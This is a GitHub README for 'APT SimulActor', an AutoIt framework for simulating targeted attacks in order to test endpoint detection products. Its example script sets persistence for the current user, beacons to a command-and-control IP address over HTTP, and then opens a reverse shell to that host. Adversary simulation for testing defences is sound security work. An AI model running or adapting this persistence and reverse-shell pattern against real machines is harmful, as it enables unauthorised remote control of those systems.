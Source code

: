 # APT SimulActor

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.


## Example Flow

![flow](https://user-images.githubusercontent.com/24607076/70719514-0af56200-1cea-11ea-8167-4bbe872d525c.PNG)


## Example Code
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/misc.au3"

$victim = "john"
$c2_ip = "192.168.231.106"
$c2_port = "444"
$timer = 60

init()

if InternetCheck() Then

   If numberOfLogins(whoami()) > 2 Then

	  Move2Temp()

	  SetPersistent4CurrentUser()

	  While $timer > 0

		 HttpPost($c2_ip, "Timer:", $timer)
		 Sleep(1000)
 		 $timer = $timer - 1

	  WEnd

	  ReverseShell($c2_ip, $c2_port)

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)
